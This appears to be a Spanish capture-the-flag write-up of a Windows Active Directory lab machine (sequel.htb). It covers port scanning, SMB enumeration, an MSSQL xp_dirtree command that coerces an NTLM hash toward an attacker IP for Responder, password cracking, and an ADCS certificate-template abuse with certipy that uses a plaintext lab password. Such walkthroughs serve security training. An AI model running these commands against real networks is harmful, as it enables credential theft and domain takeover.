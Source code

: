 #ActiveDirectory #medium #windows 
### Ping
```python
ping -c 1 10.10.11.202
PING 10.10.11.202 (10.10.11.202) 56(84) bytes of data.
64 bytes from 10.10.11.202: icmp_seq=1 ttl=127 time=150 ms

--- 10.10.11.202 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 149.915/149.915/149.915/0.000 ms
```

### TTL 127 = Windows

### nmap
```python
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-03-29 08:37:36Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2024-03-29T08:39:10+00:00; +7h58m59s from scanner time.
1433/tcp  open  ms-sql-s          Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-29T08:32:26
|_Not valid after:  2054-03-29T08:32:26
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
3269/tcp  open  globalcatLDAPssl?
|_ssl-date: 2024-03-29T08:39:10+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49686/tcp open  msrpc             Microsoft Windows RPC
49725/tcp open  msrpc             Microsoft Windows RPC
51906/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h58m58s, deviation: 0s, median: 7h58m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-29T08:38:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.86 seconds
```

### Enumeración del puerto 53 (DOMAIN)
`dig` conseguimos una cookie que podría ser interesante
![[Pasted image 20240328204907.png]]

`dnsenum`
podemos ver lo que parece la ipv6 de la maquina
![[Pasted image 20240328205655.png]]

`Enumerating srv records`
tenemos un reconocimiento completo de kerberos y ldap lo que me hace pensar que podríamos intentar obtener un TGT mas adelante 
![[Pasted image 20240328205742.png]]

### Enumeración del puerto 88 (Kerberos)

![[Pasted image 20240328210931.png]]

### Enumeración del puerto 389 (ldap)
no obtenemos mucha información sobre el ldap
![[Pasted image 20240328214121.png]]

### Enumeración del puerto 445 (SBM)
tenemos archivos compartidos 
![[Pasted image 20240328214416.png]]

`smbmap`
smbmap nos permite ver los permisos que tenemos sobre los archivos compartidos
![[Pasted image 20240328214546.png]]

### smbmap
encontramos un directorio llamado public donde tenemos permisos de lectura y dentro tenemos un archivo pdf que podemos descargar 
![[Pasted image 20240328214912.png]]

`download`
descargamos el archivo pdf que se esta compartiendo
![[Pasted image 20240328220045.png]]

`open pdf`
el archivo pdf que conseguimos nos da información de varios usuarios y de como conectarnos a la base de datos mysql con las credenciales
![[Pasted image 20240328220348.png]]

### impacket-mssqlclient
usando `mssqlclient` de la suite de impacket podemos establecer conexión en la base de datos
![[Pasted image 20240328221851.png]]

### responder 
vamos a iniciar el responder para intentar obtener un hash. si intentamos listar los archivos y directorios en nuestra maquina y estos no existen la base de datos debería de darnos un hash
```python
EXEC MASTER.sys.xp_dirtree '\\10.10.10.10\test', 1, 1
```
![[Pasted image 20240328222914.png]]

### impacket-mssqlclient + responder
apuntamos a un recurso que no existe en nuestra maquina atacante por lo cual estaríamos envenenando la petición y de esta manera podeos capturar un hash NTLMv2. del usuario sql_svc
`NOTA: este ataque es parecido a un ataque SMB-Relay (SAMBA Relay)`
![[Pasted image 20240328224406.png]]

`john`
usaremos john para poder desencriptar este hash
![[Pasted image 20240328231411.png]]

### crackmapexec
validamos las credenciales por smb y por evil-winrm
![[Pasted image 20240328231824.png]]

### Evil-winrm
obtenemos conexión
![[Pasted image 20240328232054.png]]

### Lateral Movement

tenemos un usuario llamado Ryan.Cooper probablemente debemos hacer movimiento lateral para poder cambiar de usuario
![[Pasted image 20240328235037.png]]

`ERRORLOG.BAK` tenemos un archivo donde se guardan logs del sistema
![[Pasted image 20240328234834.png]]

`ERRORLOG.BAK`
parece que el usuario ryam cometió el error de poner su contraseña en el parámetro de usuario y esto ha quedado guardad en el archivo de logs
![[Pasted image 20240328234727.png]]

### crackmapexec
validamos las credenciales que hemos conseguido
![[Pasted image 20240328235716.png]]

### Lateral Movement (Usuario ryam.cooper)
logramos cambiar de usuario exitosamente. ahora solo nos queda escalar privilegios
![[Pasted image 20240328235837.png]]

### Certify
en este punto podemos utilizar la herramienta certify para intentar buscar algún certificado vulnerable y de esta manera poder escalar privilegios descargaremos la herramienta desde esta ubicación [Certify](https://github.com/ademkanat/Certify.git) 
![[Pasted image 20240329155240.png]]

`.\Certifi.exe cas`
![[Pasted image 20240329155457.png]]
`podemos ver un Certificate Authorities`
![[Pasted image 20240329155617.png]]

`.\Certify.exe find /vulnerable`
esto nos permite identificar las plantillas vulnerables. esta vulnerabilidad se puede explotar usando la herramienta certipy
![[Pasted image 20240329160548.png]]

### certipy-ad

Con este comando vamos a generar una solicitud de certificado para el usuario "ryan.cooper", con el objetivo de inscribir un certificado con el UPN "administrator@sequel.htb", y utilizando una plantilla de certificado llamada "UserAuthentication". Todo esto se realiza dentro de un entorno de Active Directory, y la CA utilizada para firmar el certificado es "sequel-dc-ca".
```python
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
![[Pasted image 20240329163011.png]]